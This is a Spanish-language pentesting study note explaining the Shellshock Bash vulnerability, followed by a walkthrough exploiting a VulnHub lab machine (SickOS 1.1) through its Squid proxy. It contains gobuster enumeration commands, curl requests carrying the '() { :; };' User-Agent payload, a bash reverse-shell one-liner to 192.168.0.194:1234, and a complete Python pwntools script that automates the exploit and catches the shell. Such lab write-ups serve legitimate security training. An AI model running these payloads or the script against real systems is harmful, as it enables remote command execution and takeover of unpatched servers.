 -------
- Tags:
----
# Definición

> Un ataque **Shellshock** es un tipo de ataque informático que aprovecha una vulnerabilidad en el **intérprete de comandos Bash** en sistemas operativos basados en Unix y Linux. Esta vulnerabilidad se descubrió en 2014 y se considera uno de los ataques más grandes y generalizados en la historia de la informática.

Esta vulnerabilidad en Bash permite a los atacantes ejecutar comandos maliciosos en el sistema afectado, lo que les permite tomar el control del sistema y acceder a información confidencial, modificar archivos, instalar programas maliciosos, etc.

La vulnerabilidad Shellshock se produce en el intérprete de comandos Bash, que es utilizado por muchos sistemas operativos Unix y Linux para ejecutar scripts de shell. El problema radica en la forma en que Bash maneja las variables de entorno. Los atacantes pueden inyectar código malicioso en estas variables de entorno, las cuales Bash ejecuta sin cuestionar su origen o contenido.

Los atacantes pueden explotar esta vulnerabilidad a través de diferentes vectores de ataque. Uno de ellos es a través del **User-Agent**, que es la información que el navegador web envía al servidor web para identificar el tipo de navegador y sistema operativo que se está utilizando. Los atacantes pueden manipular el User-Agent para incluir comandos maliciosos, que el servidor web ejecutará al recibir la solicitud.

# Explotación de ShellShock en máquina de Vulnhub

Para explotar esta vulnerabilidad utilizaremos la máquina que detectamos que posee un **Squid Proxy** del capitulo [[Squid Proxies]]. Esta máquina se puede descargar a través de la siguiente [web](https://www.vulnhub.com/entry/sickos-11,132/).

Una vez estemos pasando nuestras peticiónes por el **FoxyProxy**, a través del **Squid Proxy** que detectamos en el *puerto 3128*, haremos lo siguiente.

Como hicimos en el caso anterior, utilizaremos ``gobuster`` nuevamente para detectar los directorios existentes dentro de la web http://192.168.0.102, pero esta vez añadiremos el parámetro ``--add-slash`` para que nos añada una ``/``al final de cada ruta, de esta forma quizás encontremos mas directorios ocultos.

- ``gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --proxy http://192.168.0.102:3128 -u 192.168.0.102:80 --add-slash -t 10``

![[SHSH 1.png]]

La ruta que nos interesa en este caso es la de *http://192.168.0.102/cgi-bin/*. ==Siempre que encontremos esta ruta es bueno intentar testear este tipo de ataque==.

En estos casos al encontrar esta ruta siempre es útil intentar buscar archivos en **gobuster** con el parámetro ``-x (extensión)`` que contengan extensiones como *pl*, *sh*, y *cgi*, eso es lo que haremos pero contemplando la ruta */cgi-bin/*.

- ``gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --proxy http://192.168.0.102:3128 -u http://192.168.0.102/cgi-bin --add-slash -t 10 -x pl, sh, cgi``

![[SHSH 2.png]]

Si nos dirigimos a ese directorio por nuestro navegador http://192.168.0.102/cgi-bin/status veremos un panel, en este habrá una cadena que dirá "*uptime*" donde se mostrará en tiempo real **la hora**, si reiniciamos la página con ``F5``, veremos que en el apartado de **segundos**, se **actualizará** cada vez que reiniciamos la web. Esto también se puede hacer con ``curl``, a continuación mostramos los dos casos.

![[SHSH 3.png]]

- ``curl -s http://192.168.0.102/cgi-bin/status --proxy http://192.168.0.102:3128 | jq``

![[SHSH 4.png]]

--------

A continuación nos apoyaremos de una [web](https://blog.cloudflare.com/inside-shellshock/) que explica detalladamente como los atacantes utilizan el ataque de ShellShock mediante la **manipulación** del **User-Agent** con ``curl``.

- ``curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/``

Todo el potencial de este comando radica en los caracteres ``() { :; };``. En el caso del comando anterior, vemos que se emplea un ``/bin/eject``, este comando lo que hace es abrir la **disquetera de la PC**, pero en su lugar **podríamos colocar el comando que quisieramos** como por ejemplo una **whoami** pero especificando su ruta absoluta ==Podemos tomar referencias desde nuestra terminal con el comando ``which whoami``==.

- ``curl -s http://192.168.0.102/cgi-bin/status --proxy http://192.168.0.102:3128 -H "User-Agent: () { :; }; /usr/bin/whoami" ``

![[SHSH 5.png]]

Aplicando los ``echo;`` quedaría así.

![[SHSH 6.png]]

Por lo tanto podríamos enviarnos una **Reverse Shell** pero teniendo en cuenta que a la hora de efectuar un **ShellShock** debemos especificar la **ruta absoluta** del comando **Bash**, que puede ser tanto ``/bin/bash`` como ``/usr/bin/bash``, por lo tanto es cuestión de probar cual funciona.

- ``/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.194/1234 0>&1'``

![[SHSH 7.png]]

-------

Por último lo que podríamos hacer es crear un script en Python3

```python
#!/usr/bin/python3

import sys, signal, requests, threading
from pwn import *

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = 'http://192.168.0.102/cgi-bin/status'
squid_proxy = {'http': 'http://192.168.0.102:3128'}
lport = 1234

def shellshock_attack():

    headers = {'User-Agent': "() { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.194/1234 0>&1'"}

    r = requests.get(main_url, headers=headers, proxies=squid_proxy)

if __name__ == '__main__':

    try:
        threading.Thread(target=shellshock_attack).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    if shell.sock is None:
        log.failure("No se pudo establecer la conexión")
        sys.exit(1)
    else:
        shell.interactive()

```